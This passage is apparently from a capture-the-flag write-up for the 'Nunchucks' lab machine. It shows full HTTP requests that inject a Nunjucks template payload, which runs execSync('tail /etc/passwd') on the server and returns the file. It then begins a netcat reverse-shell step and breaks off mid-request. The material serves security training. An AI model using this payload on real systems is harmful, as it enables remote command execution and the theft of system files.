 The next thing I needed to do was to identify the templating engine used on the server. The header told be this was running Express, so I looked at Node templating engine in the HackTricks page. I saw one called [NUNJUCKS](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks) so I tested it with the first command injection example. 

```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=GF8zEz4oerOlosiTsgNYIpEA
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 127
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"email":"{% raw %}{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}{% endraw %}"}
```

The response contained the /etc/password file. 

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 19 Apr 2022 00:12:22 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 744
Connection: close
X-Powered-By: Express
ETag: W/"2e8-J+TpLegq6Ei0sr/u8xxp/hXEqcY"

{"response":"You will receive updates on the following email address: lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false\nrtkit:x:113:117:RealtimeKit,,,:/proc:/usr/sbin/nologin\ndnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin\ngeoclue:x:115:120::/var/lib/geoclue:/usr/sbin/nologin\navahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin\ncups-pk-helper:x:117:123:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin\nsaned:x:118:124::/var/lib/saned:/usr/sbin/nologin\ncolord:x:119:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin\npulse:x:120:126:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin\nmysql:x:121:128:MySQL Server,,,:/nonexistent:/bin/false\n."}
```

Now I launched an netcat listener and used the next example.

```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=uGGhErwTbZfNoPOlJSeKno_F
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 167
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```